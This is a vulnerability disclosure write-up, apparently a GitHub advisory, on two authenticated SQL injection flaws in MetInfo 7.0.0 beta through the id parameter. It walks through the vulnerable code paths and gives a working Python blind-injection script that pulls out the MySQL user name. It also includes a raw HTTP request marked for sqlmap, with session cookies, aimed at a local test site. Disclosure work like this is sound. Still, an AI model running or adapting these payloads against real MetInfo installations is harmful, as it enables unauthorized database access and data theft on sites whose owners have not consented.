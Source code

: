 # The MetInfo 7.0.0 beta Background SQL Blind Injection #

Description:In Metinfo 7.0.0 beta, SQL Injection was discovered in /app/system/include/class/view/compile.class.php via the id parameter.

## 1.Version Description: ##

Use the Google Chrome open this test site.download this version（```https://u.mituo.cn/api/metinfo/download/7.0.0beta```) and build a test site.

![](35.png)

Current version as follow.

![](30.png)

## 2.Number One SQL Injection(Need to login) ##

locate in /app/system/ui_set/admin/index.class.php line:474 to 484
![](33.png)

Line 481,all three parameters are retrieved from the form,The function doget_text_content call get_field_text,
and we follow the function locate in /app/system/include/class/view/compile.class.php line:294 to 309
![](34.png)


In $query, directly to the id in the SQL statement.And make a SQL Injection.

And then we use this url：

> http://127.0.0.1/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1

    
    #!/usr/bin/env python3
    # -*- coding: utf-8 -*-
    import requests
    import re
    payloads='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_-.'
    print ('Start to retrive current user:')
    user=''
    header={
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Cookie':'Hm_lvt_520556228c0113270c0c772027905838=1570592565; re_url=http://127.0.0.1/admin/; PHPSESSID=e351ac2df468e9d187ecf31163c935dc; met_auth=e01fakMDoiG475LTUMYtNy2tJPH0tI8W7e3M7e12bzx8fIcVwM/3viTT6eJBMWuAfe6uqe8aB5BVMs3uz6XYBVz8zA;met_key=gCjlS1m;admin_lang=cn;page_iframe_url=http://127.0.0.1/index.php/lang=cn&pageset=1'#logged in admin's cookie
    }
    for i in range(1,23):
    for payload in payloads:
    url = "http://127.0.0.1/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1"
    exp = " and (ascii(mid(lower(user()),%d,1))=%d)" %(i,ord(payload))
    url_vul=url+exp
    response=requests.get(url_vul,headers=header)
    if re.findall('\"status\":1',response.text):
    user=user+payload
    print ('\n user is:',user,)
    break
    else:
    print ('.',end='')
    print ('\n[Done] current mysql user is %s' %user)


Run this poc script.

![](31.png)


And then we can get such as this page of mysql current user.

## 3.Number Two SQL Injection(Need to login) ##

The other SQL Injection is the same as above.locate in /app/system/ui_set/admin/index.class.php line:492 to 502
![](36.png)

The function doset_text_content call set_field_text,
and we follow the function locate in /app/system/include/class/view/compile.class.php line:311 to 330
![](37.png)


In $query, directly to the id in the SQL statement.And make a SQL Injection.

    GET /admin/index.php?n=ui_set&m=admin&c=index&a=doset_text_content&table=product&field=description&text=123456&id=10* HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: Hm_lvt_520556228c0113270c0c772027905838=1570592565,1570629746; PHPSESSID=e351ac2df468e9d187ecf31163c935dc; met_auth=e01fakMDoiG475LTUMYtNy2tJPH0tI8W7e3M7e12bzx8fIcVwM%2F3viTT6eJBMWuAfe6uqe8aB5BVMs3uz6XYBVz8zA; met_key=gCjlS1m; admin_lang=cn; page_iframe_url=http%3A%2F%2F127.0.0.1%2Findex.php%3Flang%3Dcn%26pageset%3D1; Hm_lpvt_520556228c0113270c0c772027905838=1570634168; arrlanguage=metinfo
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1

For simplicity I will use the sqlmap and get a sql injection,and get current mysql user successfully.
![](32.png)